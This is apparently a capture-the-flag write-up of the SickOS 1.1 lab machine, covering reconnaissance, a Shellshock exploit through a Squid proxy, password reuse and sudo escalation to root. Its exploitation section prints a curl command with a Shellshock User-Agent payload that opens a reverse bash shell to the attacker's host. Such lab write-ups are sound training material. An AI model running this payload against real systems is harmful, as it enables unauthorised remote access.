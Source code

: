 # SickOS: 1.1

The challenge describes the steps I've taken to gain root access to the target machine, and  techniques used to exploit vulnerabilities and escalate privileges.

## Action plan:

1. **Identify the initial reconnaissance steps:** finding the target IP and performing initial scans.
2. **Summarize the vulnerability discovery:** identifying the use of a proxy and the presence of a vulnerable web application.
3. **Explain the exploitation process:** detailing the Shellshock exploit and how it was used to gain a reverse shell.
4. **Describe the privilege escalation:** finding database credentials, logging in via SSH, and leveraging sudo permissions to gain root access.
5. **Highlight the final step:** Retrieving the flag from the root directory.

# Challenge Analysis: SickOS 1.1

## 1. Initial Reconnaissance

-   **Finding the Target:** The attacker used `netstat` to identify the target machine's IP address on the network, which was found to be 192.168.1.9.

-   **Port Scanning and Service Detection:** An `nmap` scan was performed to identify open ports and running services. The scan revealed:
    -   Port 22: OpenSSH 5.9p1
    -   Port 3128: Squid HTTP Proxy 3.1.19
    -   Port 8080: Closed (likely due to the proxy)

    <reflection>
    The `nmap` scan is a standard and effective way to gather information about a target.
    </reflection>

## 2. Vulnerability Discovery

-   **Proxy Detection:** The presence of a Squid HTTP Proxy on port 3128 suggested a web server might be hidden behind it.

    <reflection>
    Based on my understanding of network configurations.
    </reflection>

-   **Website and Vulnerability Scan:** `nikto` was used with the `-useproxy` option to scan the web server behind the proxy. The scan revealed:
    -   The web server was running Apache/2.2.22.
    -   The server was vulnerable to Shellshock (CVE-2014-6271 and CVE-2014-6278) in the `/cgi-bin/status` directory.

    <reflection>
    The identification of Shellshock as a potential vulnerability is crucial.
    </reflection>

-   **Website Access:** The attacker configured their Firefox browser to use the identified proxy (192.168.1.9:3128) and successfully accessed the website hosted on the target machine.
    
-   **robots.txt Discovery:** Accessing `robots.txt` revealed a disallowed directory: `/wolfcms`.

    <reflection>
    Checking `robots.txt` is a standard web application reconnaissance technique.
    </reflection>

## 3. Exploitation

-   **Shellshock Explanation:** The challenge provides a detailed explanation of the Shellshock vulnerability and how it allows for arbitrary command execution.
    
-   **Reverse Shell Setup:** A `netcat` listener was set up on the attacker's machine to receive a reverse shell connection.
    
-   **Exploiting Shellshock:** The attacker used `curl` to send a crafted HTTP request with a malicious User-Agent header, exploiting the Shellshock vulnerability in `/cgi-bin/status`. The command executed a reverse TCP bash shell back to the attacker's machine.
    
    ```zsh
    curl -x http://192.168.1.9:3128 -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.1.7/1234 0>&1" http://192.168.1.9/cgi-bin/status
    ```

-   **Gaining a Shell:** The `netcat` listener successfully received a connection, granting the attacker a shell as the `www-data` user.

    <reflection>
    This confirms the successful exploitation of the vulnerability.
    </reflection>

## 4. Privilege Escalation

-   **Database Credentials:** The attacker navigated to the `/var/www/wolfcms` directory and found the `config.php` file, which contained the MySQL root credentials:
    -   Username: `root`
    -   Password: `john@123`

    <reflection>
    Finding database credentials in a configuration file is a common privilege escalation technique.
    </reflection>

-   **Failed MySQL Connection:** The attacker attempted to connect to the MySQL server using these credentials but failed.

    <reflection>
    This is an interesting observation. It's possible that MySQL was configured to only accept connections from specific users or IP addresses, or that the service was not running.
    </reflection>

-   **User Enumeration:** The attacker examined the `/etc/passwd` file and identified a user named `sickos`.

    <reflection>
    Examining `/etc/passwd` is a standard way to enumerate users on a Linux system.
    </reflection>

-   **SSH Login:** The attacker attempted to login via SSH using the username `sickos` and the previously found MySQL root password (`john@123`). This was successful.

    <reflection>
    This highlights the danger of password reuse.
    </reflection>

-   **Sudo Permissions:** The attacker used `sudo -l` to check the `sickos` user's sudo permissions and found that the user could run any command as root.

    <reflection>
    This is a significant finding and a clear path to root access.
    </reflection>

-   **Gaining Root:** The attacker used `sudo su` to elevate their privileges to root.

    <reflection>
    This is the final step in gaining complete control over the system.
    </reflection>

## 5. Flag Capture

-   **Retrieving the Flag:** The attacker navigated to the `/root` directory and used `cat` to read the contents of the flag file `a0216ea4d51874464078c618298b1367.txt`, successfully completing the CTF challenge.

    <reflection>
    This is the objective of the CTF and confirms the successful compromise of the target machine.
    </reflection>

